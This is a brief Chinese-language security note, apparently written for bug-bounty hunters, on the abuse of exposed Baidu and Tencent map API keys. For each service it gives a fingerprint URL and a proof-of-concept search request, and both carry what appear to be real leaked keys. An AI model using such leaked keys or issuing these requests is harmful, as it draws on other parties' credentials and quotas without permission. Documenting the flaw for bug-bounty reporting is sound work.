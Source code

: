 地图 API 接管漏洞会导致该 Key 被出售给其它开发者或恶意消耗 API;

将会导致地图加载异常，显示报错信息, 无法获取使用者的地理定位等.

## 1. 百度地图

### 1.1. 特征

```
https://api.map.baidu.com/api?v=1.0&&type=webgl&ak=SA1vncDqp8vNAVIn1WUGIQkE7G5cDdbP
```

### 1.2. PoC

```
https://api.map.baidu.com/place/v2/search?query=ATM&tag=银行&region=上海&output=json&ak=SA1vncDqp8vNAVIn1WUGIQkE7G5cDdbP
```

## 2. 腾讯地图

### 2.1. 特征

```
https://map.qq.com/api/gljs?v=1.exp&key=DKCBZ-SYCCU-OZ2VP-2ES3Z-ZQHQ6-6FFW6
```

### 2.2. PoC

```
https://apis.map.qq.com/ws/place/v1/search?keyword=银行&boundary=nearby(31.2304,121.4737,1000)&key=DKCBZ-SYCCU-OZ2VP-2ES3Z-ZQHQ6-6FFW6
```

---

- [“地图API后台配置错误”:挖SRC的新玩具？](https://www.freebuf.com/articles/web/360331.html)

